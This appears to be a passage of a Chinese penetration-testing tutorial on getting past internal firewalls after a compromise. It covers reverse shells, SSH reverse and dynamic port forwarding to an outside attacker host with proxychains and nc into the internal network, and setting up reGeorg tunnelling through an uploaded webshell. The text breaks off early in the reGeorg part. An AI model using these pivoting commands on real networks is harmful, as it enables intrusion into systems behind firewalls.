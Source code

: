 #### 0x01 场景与思路分析

###### 场景一：内网防火墙对出口流量没有任何端口限制

思路 **：由于防火墙对出口流量没有任何端口限制，我们的可选择的方案非常灵活，如：反弹shell**

###### 场景二：内网防火墙仅允许内网主机访问外网的特定端口（如：80, 443）

思路：由于防火墙仅允许部分特定外网端口可以访问，思路一仍然是反弹shell只不过目标端口改成特定端口即可；思路二则是端口转发，将内网主机的某些服务的端口转发到外网攻击主机上的防火墙允许的特定端口上，再通过连接外网主机上的本地端口来访问内网服务

**方法一：反弹shell可参考场景一中的方法，仅需修改目标端口为防火墙允许的特定端口即可**

**方法二：端口转发**

**方法三：SSH的动态端口转发配合proxychains来代理所有流量进一步渗透内网**

1.在内网主机上执行

1-
2-

ssh -f -N -R 2222:127.0.0.1:22 -p 80 root@192.168.0.230-
(输入外网主机的SSH口令)-

2.在外网主机上执行

1-
2-

ssh -f -N -D 127.0.0.1:8080 -p 2222 avfisher@127.0.0.1-
(输入内网主机的SSH口令)-

3.在外网主机上配置proxychains设置socks4代理

1-
2-
3-

$ vim /etc/proxychains.conf-
\[ProxyList\]-
socks4 127.0.0.1 8080-

4.使用proxychains代理所有流量进入内网

1-

proxychains nc -nv 10.0.2.5 3306-

###### 场景三：TCP不出网-HTTP代理

**一.reGeorg**

reGeorg原版：[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)-
reGeorg修改版：[https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)

假设拿到的Webshell是[http://aaa.com/shell.jsp，](http://aaa.com/shell.jsp%EF%BC%8C%E4%BB%A5%E5%8E%9F%E7%89%88reGeorg%E4%B8%BA%E4%BE%8B%E3%80%82)以原版reGeorg为例。

上传reGeorg中的 tunnel.jsp，假设当前URL为[http://aaa.com/tunnel.jsp](http://aaa.com/tunnel.jsp)
